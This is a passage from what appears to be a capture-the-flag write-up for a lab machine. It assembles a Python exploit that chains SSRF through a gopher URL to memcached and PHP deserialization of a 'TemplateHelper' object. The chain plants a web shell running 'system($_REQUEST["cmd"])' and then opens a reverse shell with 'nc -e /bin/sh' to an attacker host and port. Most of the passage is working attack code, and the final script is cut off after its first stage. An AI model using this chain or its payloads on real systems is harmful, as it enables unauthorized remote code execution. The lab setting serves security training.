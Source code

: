 	code = 'O:14:"TemplateHelper":2:{s:4:"file";s:'+str(len(file))+':"'+file+'";s:4:"data";s:31:"<?php system($_REQUEST["cmd"]);";}'
```
also tweaking the payload like so:
```
"%0d%0aset xct_4e5612ba079c530a6b1f148c0b352241 4 0 " + str(len(code)) + "%0d%0a" +  code + "%0d%0a"
```
We then add this code block at the end which does our ssrf attack for us:
```py
payload = pl()

print "Stage 1: SSRF in memcached"

ssrfURL = url+"awesome-rss/?debug=yes&custom_feed_url="+payload

x = requests.get(ssrfURL)
print(x.status_code)

print "Stage 2: Trigger Deserilzation"
x = requests.get(url+"awesome-rss/")
print(x.status_code)

payloadURL = url + "wp-content/themes/twentytwenty/logs/"+file
while True:
    print payloadURL
    x = requests.get(payloadURL)
    print(x.status_code)
    if x.status_code == 200:
        break;

print "Stage 3: Get a Shell"

rceURL = payloadURL+"?cmd=nc -e /bin/sh "+HOST+" "+PORT
print rceURL
x = requests.get(rceURL)
```
so our final exploit is:
```py
import urllib
import requests

host="10.10.14.14"
port=1234
file="shell.php"
url="http://blog.travel.htb"
 
def pl():

	code = 'O:14:"TemplateHelper":2:{s:4:"file";s:'+str(len(file))+':"'+file+'";s:4:"data";s:31:"<?php system($_REQUEST["cmd"]);";}'
 
	payload = "%0d%0aset xct_4e5612ba079c530a6b1f148c0b352241 4 0 " + str(len(code)) + "%0d%0a" +  code + "%0d%0a"
 
    finalpayload = urllib.quote_plus(payload).replace("+","%20").replace("%2F","/").replace("%25","%").replace("%3A",":")
    return "gopher://2130706433:11211/_" + finalpayload



payload = pl()

print "Stage 1: SSRF in memcached"

```